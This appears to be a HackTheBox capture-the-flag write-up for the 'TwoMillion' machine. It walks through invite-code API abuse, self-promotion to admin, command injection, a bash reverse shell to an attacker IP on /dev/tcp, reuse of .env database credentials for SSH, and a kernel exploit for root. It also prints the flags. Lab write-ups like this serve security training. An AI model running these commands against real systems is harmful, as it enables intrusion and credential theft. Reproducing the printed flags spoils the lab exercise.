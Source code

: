 # Network
There are two `TCP` ports are open

	- 22 : ssh is running and not vulnerable to Rce
	- 80 : on 80 `2million.htb` is hosted which is old version of HTB
# Web
There is old version of htb is running on port 80

Nothing special found on home page except `JOIN NOW` page which is redirecting us to `/invite` page
	
 ![Screenshot from 2023-09-22 10-25-05](https://github.com/iammR0OT/HTB/assets/74102381/497c590a-68f8-4eba-bb49-02497ee743ef)

On invite page it is asking about some kind of `invite code` which we didn't have any
	
 ![Screenshot from 2023-09-22 10-26-22](https://github.com/iammR0OT/HTB/assets/74102381/1bf0dea8-f336-40a0-8c27-88629a9a8964)

Lets check the source code of it and the network tab that which files is it requesting while loading the page.

In source code we found interesting file path called `/js/inviteapi.js`
	
 ![Screenshot from 2023-09-22 10-29-47](https://github.com/iammR0OT/HTB/assets/74102381/1082a6cb-8141-4135-b8e9-21c538f92969)

There are some functions present in this file
	
 ![Screenshot from 2023-09-22 10-31-38](https://github.com/iammR0OT/HTB/assets/74102381/f8d2a165-6d72-4d5c-930b-00b09b422c93)

Lets beautify the JS code using `jsbeautifier`

We found two function in that code 

	one is for **verifyInvideCode** which is probably taking the invite code and checking it on server side if it is valid or not
	and the second one is **makeInviteCode** which is requesting `/api/v1/invite/how/to/generate` api and creating a invitation code  
	
 ![Screenshot from 2023-09-22 10-32-57](https://github.com/iammR0OT/HTB/assets/74102381/9780e2c6-43cf-4341-ba0f-2c7de00cca98)

Lets hit this api and check if it allow us to generate code without any authentication

We will use `curl` and `jq` 

	Curl for making POST request and jq for josn data reading it is basically json parser
	We will use command `curl -X POST "http://2million.htb/api/v1/invite/how/to/generate" | jq .`
	We got some Encrypted data and the encryption type which is `ROT13`
	
 ![Screenshot from 2023-09-22 10-42-22](https://github.com/iammR0OT/HTB/assets/74102381/6bdca938-6798-435c-8cfd-c4742a965339)

After decryption we get a path saying that to it generate a key we have to request to `/api/v1/invite/generate` api
	
 ![Screenshot from 2023-09-22 10-44-13](https://github.com/iammR0OT/HTB/assets/74102381/cb2fc858-98b3-438f-9716-8d0476d348f0)

After requesting we got a session cookie base64 encoded, after decoding that we found a valid invite code `396E7-KEQJT-2896J-C7UC7`
	
 ![Screenshot from 2023-09-22 10-47-43](https://github.com/iammR0OT/HTB/assets/74102381/55fa964d-8210-4732-83fc-e170417ea29e)

Now we have Invite code lets insert code and found what's next

We found Registration page, Lets register as a admin user
	
 ![Screenshot from 2023-09-22 10-50-32](https://github.com/iammR0OT/HTB/assets/74102381/5561b551-48a4-4832-8642-0330752aa4ae)

Now we login as a admin user, let see what things we can do here

Wo here are 3 pages that we can look at

	/changelog
	/rule
	/access
	
 ![Screenshot from 2023-09-22 11-13-58](https://github.com/iammR0OT/HTB/assets/74102381/b73b0f2d-c2fb-4bb4-a552-33e1598f261b)

In access page there is vpn regenerate functionality which is requesting `/api/v1/user/vpn/regenerate` to regenerate vpn

Lets look at this in burpsuite

When we test the api and move back to the directory one by one we discover some endpoints in `/api/v1` 
	
 ![Screenshot from 2023-09-22 11-19-00](https://github.com/iammR0OT/HTB/assets/74102381/f074a18a-0131-4592-9048-94ed48d0b868)
	
 ![Screenshot from 2023-09-22 12-00-35 1](https://github.com/iammR0OT/HTB/assets/74102381/0b8cbf2c-fb9c-4b54-a43b-4b571c37231f)

There are 3 interesting endpoints

	api/v1/admin/settings/update
	api/v1/admin/auth
	api/v1/admin/vpn/generate

Lets request to `api/v1/admin/settings/update`

We update the our simple user to admin using `/api/v1/admin/settings/update` endpoint

I face some errors like

		**Invalid content type**: i resolve this by changing the **Content-Type:** header to **application/json** which means the the content will be in the form of json
  
		**Missing parameter email**: i resolve this by adding {"email":"admin@gmail.com"} which is email account i used to login as a user on machine
		**Missing parameter is_admin**: I resolve this by adding {"is_admin":1} which means it is an admin account
	
 ![Screenshot from 2023-09-22 11-38-32](https://github.com/iammR0OT/HTB/assets/74102381/77119d9c-e915-4479-b13f-7f156039637c)

Using curl
	
 ![Screenshot from 2023-09-22 12-00-35 1](https://github.com/iammR0OT/HTB/assets/74102381/71dea82b-1454-48d7-9390-ca3b7327a0e6)

Now successfully our user becomes an admin on the machine 

Lets look at the `/api/v1/admin/vpn/generate`, which is generating vpn for admin user 

	While requesting that endpoint i face an error that the username parameter is missing. so i resolve this by adding` {"username":"admin"}`
 
And its generating vpn maybe there will be a bash command is running in the background 

Lets try to command injection in this.

I found a successful command injection in the vpn generator field.
	
 ![Screenshot from 2023-09-22 11-58-09](https://github.com/iammR0OT/HTB/assets/74102381/c70407e0-7fc2-40a9-9e90-4e3fce62b036)

# User found

Now we found command injection in password generator field lets try simple reverse shell in it  

	`bash -c 'bash -i >& /dev/tcp/10.10.14.56/9001 0>&1'`
We got a shell
		
  ![Screenshot from 2023-09-22 12-04-22](https://github.com/iammR0OT/HTB/assets/74102381/2c18f914-dce5-4443-a82e-8664acfa4f8b)

Let make a shell stable using tty shell.

		`python3 -c 'import pty;pty.spawn("/bin/bash")'`
		Using **CTRL+Z** making it background process and then use `stty raw -echo;fg` to make it foreground now whenever we need shell back we simply write this. this will get our shell back
		
  ![Screenshot from 2023-09-22 12-12-36](https://github.com/iammR0OT/HTB/assets/74102381/99390556-2e3e-49d0-b334-55dc29095ac4)

		Then `**export TERM=xterm**`
  
Now we login as WWW-data but we didn't have user shell lets enumerate the machine

After some enumeration i found file called database.php lets look into it if we found any database credentials in it

We found that mysql is running from that file

In **.env** file i found database credentials

![Screenshot from 2023-09-22 12-19-09 1](https://github.com/iammR0OT/HTB/assets/74102381/753114ae-4f03-4cb7-83d4-883da6684e78)

	DB_USERNAME=admin
	DB_PASSWORD=SuperDuperPass123
 
Now we have credentials lets try to login using ssh if that incorrect we will enumerate mysql database and we successfully login into **admin user** account
	
 ![Screenshot from 2023-09-22 12-21-44](https://github.com/iammR0OT/HTB/assets/74102381/5eb9d856-0114-4906-8d7e-9579b464f271)

Lets capture the user flag

	user = **6d7227a1f473d6204ea181aa99bc41e2**
 
# Privesc

Lets move to the privesc part

Lets enumerate the whole file system and find out what files are accessible by user admin 

	`find / -user admin 2>/dev/null | grep -v '^/run\|^/proc\|^/sys'` to check files except run folder, proc folder and sys folder

I found that there is a mail file accessible by admin user
	
 ![Screenshot from 2023-09-22 12-45-09](https://github.com/iammR0OT/HTB/assets/74102381/4586d010-f440-4a07-91d2-d2e3190b4b84)

The email is telling to admin that the kernel is outdated and vulnerable to **OverlayFS / FUSE**

![Screenshot from 2023-09-22 12-46-49](https://github.com/iammR0OT/HTB/assets/74102381/4928166f-f540-4fc8-bb5e-b477c06d1af0)

Lets explore it

It is kernel level exploit we just need to run cve files and it will give us root shell

	[refrence](https://github.com/xkaneiki/CVE-2023-0386/tree/main)
 
Root = **ef3883404d27fcad5ab69a9138eeeb64**

# Happy Hacking ❤
